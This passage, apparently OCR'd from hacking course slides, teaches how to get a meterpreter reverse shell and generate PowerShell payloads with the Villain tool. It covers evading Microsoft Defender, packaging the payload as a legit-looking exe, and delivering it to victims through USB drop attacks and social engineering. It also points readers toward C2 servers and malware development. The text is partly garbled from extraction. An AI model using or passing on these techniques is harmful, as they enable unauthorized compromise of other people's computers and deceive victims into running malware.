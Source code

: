 - *Payloads are:-a malicious software programed to execute targeted system*
6) Check your listener if they exist, run it, otherwise you write commands 3 and 4 steps again. ``Show options`` use this command.
7) Run/Exploit use this command ``run or exploit `` then you willget reves shell in meterpreter BOOM!!!🔥🔥🔥🔥
- For more check my video my (vide0)[https://www.kapwing.com/videos/65639fbe9f5842a9e206eff0]










● Villain will give u powershell code
● It is Easy to create.
● Also You can use these 3 methods to make it undetectable.
● generate os=windows/linux lhost=wlan0/192.168.1.3
Running
We can run the command we got on our victim’s powershell
And it is really amazing, you can bypass microsoft defender.
…
● To see the sessions(hacked
PC)
○ sessions
● To get into that session
○ shell <ID>
○ You can start the name and
TAB
But… we dont get the victims Powershell???
● Now it is time to think like a hacker and getting plan how you will give the
payload to the person.
● There are serveral ways
○ You can create a exe file from that payload
○ You can build/get a aurorun usb and do USB drop Attack
○ You can do social engineering and help them to run it by their own.
Powershell script to exe
https://ps2exe.azurewebsites.net/ -> You can also use some exe icon changer softwares to make it look legit.
Does it really work?
● WHen i clicked on the
software(topsercte…exe)
● It worked i got shell.
● We have bypassed Defender but not some
antivirus
● (as you see smadav has detected it but still
didnt do nothing, if you block or not)
Additional …
➔ Other critical payloads that are heavily used by penetration testers during security
assessments are
◆ Empire,
◆ Cobalt Strike payloads.
➔ These are not in the scope of this course, but feel free to research them in our free
time as they can provide a significant amount of insight into how professional
penetration testers perform their assessments on high-value targets.
➔ https://www.youtube.com/watch?v=t6Lhp5ult1Q&pp=ygUPZW1waXJlIHBheWxv
YWRz
➔ https://www.youtube.com/watch?v=ErPKP4Ms28s
➔ To Go Further on Malware development, you have to learn Programming languages
that are quick and effective on any machines(C,C++,..)
➔ A Server that Malware connects to is called C2 Server(Command & Control Server).
◆ So when you develop a malware you have to consider the best way to
communicate with the C2 Servers too.
Payload on WAN.
● As you saw we were trying the payloads on LAN network. Does it run on
WAN?